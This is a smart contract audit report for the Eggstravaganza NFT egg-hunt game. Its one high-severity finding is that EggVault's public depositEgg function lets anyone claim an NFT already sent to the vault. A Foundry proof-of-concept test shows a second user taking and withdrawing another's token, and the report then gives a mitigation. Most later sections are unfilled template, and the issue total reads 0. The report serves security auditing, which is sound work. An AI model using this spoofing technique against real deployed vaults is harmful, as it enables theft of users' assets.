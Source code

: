 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>
<div class="full-page">
    <img src="./logo.png" alt="Logo">
    <div>
    <h1> Eggstravaganza Audit Report</h1>
    <h3>Version 0.1</h2>
    <h3>Riiz0</h3>
    <h4>Date: April 8th, 2025</h4>
    </div>
    
</div>

</body>
</html>

<!-- Your report starts here! -->
# `Eggstravaganza Audit Report`

Prepared by:
- Shawn Rizo

Lead Auditor(s):
- Shawn Rizo

Assisting Auditors:
- None

<div style="page-break-after: always;"></div>

# Table of Contents
- [`<Name> Audit Report`](#name-audit-report)
- [Table of Contents](#table-of-contents)
- [About Shawn Rizo](#about-shawn-rizo)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
- [Protocol Summary](#protocol-summary)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] `<Title>&<What it does>`](#h-1-titlewhat-it-does)
  - [Medium](#medium)
    - [\[M-1\] `<Title>&<What it does>`](#m-1-titlewhat-it-does)
  - [Low](#low)
    - [\[L-1\] `<Title>&<What it does>`](#l-1-titlewhat-it-does)
  - [Informational](#informational)
    - [\[I-1\] `<Title>&<What it does>`](#i-1-titlewhat-it-does)
  - [Gas](#gas)
    - [\[G-1\] `<Title>&<What it does>`](#g-1-titlewhat-it-does)

<div style="page-break-after: always;"></div>


# About Shawn Rizo

I am a seasoned Smart Contract Engineer, adept at utilizing agile methodologies to deliver comprehensive insights and high-level overviews of blockchain projects. Specialized in developing and deploying decentralized applications (DApps) on Ethereum and EVM compatible chains. Expertise in Solidity, and security auditing, leading to a significant reduction in vulnerabilities through the strategic use of Foundry and Security Tools like Slither and Aderyn.

# Disclaimer

The Riiz0 team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 

The findings described in this document correspond the following commit hash:
```
f83ed7dff700c4319bdfd0dff796f74db5be4538
```

## Scope 

```
src/
├── EggHuntGame.sol       // Main game contract managing the egg hunt lifecycle and minting process.
├── EggVault.sol          // Vault contract for securely storing deposited Egg NFTs.
└── EggstravaganzaNFT.sol // ERC721-style NFT contract for minting unique Egg NFTs.
```

# Protocol Summary 

EggHuntGame is a gamified NFT experience where participants search for hidden eggs to mint unique Eggstravaganza Egg NFTs. Players engage in an interactive hunt during a designated game period, and successful egg finds can be deposited into a secure Egg Vault.

## Roles

Actors:
    - Game Owner: The deployer/administrator who starts and ends the game, adjusts game parameters, and manages ownership.
    - Player: Participants who call the egg search function, mint Egg NFTs upon successful searches, and may deposit them into the vault.
    - Vault Owner: The owner of the EggVault contract responsible for managing deposited eggs.

# Executive Summary
## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 1                      |
| Medium   | 0                      |
| Low      | 0                      |
| Info     | 0                      |
| Gas      | 0                      |
| Total    | 0                      |

# Findings
## High
### [H-1] Unauthorized Depositor Spoofing/FrontRunning via Public depositEgg() Function

**Description:** The `EggVault` contract's `depositEgg` function allows any external user to falsely claim authorship of a deposited NFT, introducing a critical logic flaw. While the function verifies that the token has been transferred to the vault, it does not securely associate the depositor with the actual sender, allowing for spoofing and front-running attacks.

**Vulnerability Details:** The vault contract previously relied on a public `depositEgg(uint256 tokenId, address depositor)` function (or a simplified version using `msg.sender`) to track deposits. However, this introduces two core issues:

- **Spoofing**: Anyone can call the function and falsely claim to be the depositor.
- **Front-running**: A malicious actor can observe a legitimate transfer to the vault and front-run the `depositEgg` call to register themselves as the depositor.

The vault assumes that whoever calls `depositEgg` is the rightful depositor, which breaks the integrity of the ownership model and enables unauthorized users to later withdraw NFTs they do not own.

**Impact:**

- An attacker can claim ownership over NFTs they do not own or transfer.
- Legitimate NFT holders may lose withdrawal rights to their own assets.
- This enables asset theft from the vault and undermines trust in the system.

**Proof of Concept:**
```solidity
    function testDepositEggExploit() public {
        // Mint an egg by simulating a call from the game contract.
        vm.prank(address(game));
        bool success = nft.mintEgg(alice, 1);
        assertTrue(success);
        // Check that token 1 is owned by alice.
        assertEq(nft.ownerOf(1), alice);
        // Verify that the totalSupply counter increments.
        assertEq(nft.totalSupply(), 1);

        //Transger egg to vault
        vm.prank(alice);
        nft.approve(address(vault), 1);
        vm.prank(alice);
        nft.transferFrom(address(alice), address(vault), 1);

        // Deposit the egg into the vault.
        vm.prank(bob);
        vault.depositEgg(1, bob);
        // The egg should now be marked as deposited.
        assertTrue(vault.isEggDeposited(1));
        // The depositor recorded should be alice, but the vault allows for anyone to input depositor
        assertEq(vault.eggDepositors(1), bob);

        // Depositing the same egg again should revert.
        vm.prank(alice);
        vm.expectRevert("Egg already deposited");
        vault.depositEgg(1, alice);

        // Withdrawal by someone other than the original depositor should revert.
        vm.prank(alice);
        vm.expectRevert("Not the original depositor");
        vault.withdrawEgg(1);

        // Correct withdrawal by the depositor.
        vm.prank(bob);
        vault.withdrawEgg(1);
        // After withdrawal, alice should be the owner again.
        assertEq(nft.ownerOf(1), bob);
        // The stored egg flag should be cleared.
        assertFalse(vault.isEggDeposited(1));
        // And the depositor mapping should be reset to the zero address.
        assertEq(vault.eggDepositors(1), address(0));
    }
```

```bash
Ran 1 test for test/EggHuntGameTest.t.sol:EggGameTest
[PASS] testDepositEggExploit() (gas: 203196)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 12.78ms (2.21ms CPU time)
```

**Recommended Mitigation:** Remove the `depositEgg()` function entirely and instead implement the [ERC721 token receiver interface](https://docs.openzeppelin.com/contracts/5.x/api/token/erc721#IERC721Receiver) using the `onERC721Received` function in the `EggVault` contract.

This enables safe, atomic deposits using `safeTransferFrom`, ensuring that the depositor is always the true sender of the NFT.

```solidity
function onERC721Received(
    address operator,
    address from,
    uint256 tokenId,
    bytes calldata
) external override returns (bytes4) {
    require(msg.sender == address(eggNFT), "Not from expected NFT");
    require(!storedEggs[tokenId], "Egg already deposited");

    storedEggs[tokenId] = true;
    eggDepositors[tokenId] = from;

    emit EggDeposited(from, tokenId);

    return this.onERC721Received.selector;
}
```
Then, users can deposit their NFTs securely via:

```solidity
eggNFT.safeTransferFrom(msg.sender, address(vault), tokenId);
```

This fix:
- Prevents spoofing and frontrunning
- Maintains atomicity between transfer and deposit registration
- Aligns the contract with ERC721 best practices

## Medium
### [M-1] `<Title>&<What it does>`

**Description:**
**Vulnerability Details:** 
**Impact:**
**Proof of Concept:**
**Recommended Mitigation:**


## Low 
### [L-1] `<Title>&<What it does>`

**Description:**
**Vulnerability Details:** 
**Impact:**
**Proof of Concept:**
**Recommended Mitigation:**


## Informational
### [I-1] `<Title>&<What it does>`

**Description:**
**Impact:**
**Recommended Mitigation:**


## Gas 
### [G-1] `<Title>&<What it does>`

**Description:**
**Impact:**
**Recommended Mitigation:**